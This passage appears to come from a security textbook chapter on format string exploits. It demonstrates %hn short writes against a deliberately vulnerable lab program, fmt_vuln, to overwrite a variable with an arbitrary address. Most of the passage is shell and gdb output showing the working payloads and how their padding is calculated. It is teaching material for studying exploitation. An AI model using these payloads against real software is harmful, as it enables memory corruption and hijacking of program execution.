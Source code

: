# *__Using Short Writes__*

Another technique that can simplify format string exploits is using __short writes__. A short is typically a _two-byte word_, and format parameters have a special way of dealing with them. A more complete description of possible format parameters can be found in the _printf_ manual page. The portion describing the length modifier is shown in the output below.

<pre style="color: white;">
The length modifier
    Here, integer conversion stands for d, i, o, u, x, or X conversion.

    h       A following integer conversion corresponds to a short int or
            unsigned short int argument, or a following n conversion
            corresponds to a pointer to a short int argument.
</pre>

This can be used with format string exploits to write _two-byte shorts_. In the output below, a short (shown in bold) is written in at both ends of the four-byte __test_val__ variable. Naturally, direct parameter access can still be used.

<pre style="color: white;">
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%x%x%x%hn
The right way to print user-controlled input:
??%x%x%x%hn
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc0
[*] test_val @ 0x08049794 = -65515 0xffff0015
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x96\x97\x04\x08")%x%x%x%hn
The right way to print user-controlled input:
??%x%x%x%hn
The wrong way to print user-controlled input:
??bffff3d0b7fe75fc0
[*] test_val @ 0x08049794 = 1441720 0x0015ffb8
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x96\x97\x04\x08")%4\$hn
The right way to print user-controlled input:
??%4$hn
The wrong way to print user-controlled input:
??
[*] test_val @ 0x08049794 = 327608 0x0004ffb8
reader@hacking:~/booksrc $
</pre>

Using short writes, an entire _four-byte_ value can be overwritten with just two __%hn__ parameters. In the example below, the __test_val__ variable will be overwritten once again with the address _0xbffffd72_.

<pre style="color: white;">
reader@hacking:~/booksrc $ gdb -q
(gdb) p 0xfd72 - 8
$1 = 64874
(gdb) p 0xbfff - 0xfd72
$2 = -15731
(gdb) p 0x1bfff - 0xfd72
$3 = 49805
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08\x96\x97\x04\x08")%64874x%4\
$hn%49805x%5\$hn
The right way to print user-controlled input:
????%64874x%4$hn%49805x%5$hn
The wrong way to print user-controlled input:
b7fe75fc
[*] test_val @ 0x08049794 = -1073742478 0xbffffd72
reader@hacking:~/booksrc $
</pre>

The preceding example used a similar wraparound method to deal with the second write of _0xbfff_ being less than the first write of _0xfd72_. Using _short writes_, the order of the writes doesn’t matter, so the first write can be _0xfd72_ and the second _0xbfff_, if the two passed addresses are swapped in position. In the output below, the address _0x08049796_ is written to first, and _0x08049794_ is written to second.

<pre style="color: white;">
(gdb) p 0xbfff - 8
$1 = 49143
(gdb) p 0xfd72 - 0xbfff
$2 = 15731
(gdb) quit
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x96\x97\x04\x08\x94\x97\x04\x08")%49143x%4\
$hn%15731x%5\$hn
The right way to print user-controlled input:
????%49143x%4$hn%15731x%5$hn
The wrong way to print user-controlled input:
????
b7fe75fc
[*] test_val @ 0x08049794 = -1073742478 0xbffffd72
reader@hacking:~/booksrc $
</pre>

The ability to overwrite arbitrary memory addresses implies the ability to control the execution flow of the program. One option is to overwrite the return address in the most recent stack frame, as was done with the stack-based overflows. While this is a possible option, there are other targets that have more predictable memory addresses. The nature of stack-based overflows only allows the overwrite of the return address, but format strings provide the ability to overwrite any memory address, which creates other
possibilities.